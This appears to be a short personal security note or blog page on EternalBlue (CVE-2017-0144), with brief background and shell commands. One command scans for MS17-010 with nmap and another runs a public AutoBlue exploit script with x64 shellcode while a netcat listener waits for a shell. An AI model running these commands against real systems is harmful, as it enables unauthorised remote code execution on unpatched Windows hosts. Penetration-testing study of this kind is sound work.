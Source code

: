 ```yaml
---
title: 'EternalBlue'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'eternal blue']
---
```


CVE-2017-0144

- It's a collection of Windows vulnerabilities and exploits that allow RCE.

- Devoped by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group Shadow Brokers.

- Exploit SMBv1 protocol.

```bash
nmap -p445 -sCV --script=smb-vuln-ms17-010 target
```

Execute this 3ndG4me/Autoblue-ms17-010 and listen nc

```bash
python eternalblue_exploit7.py target shellcode/sc_x64.bin
```
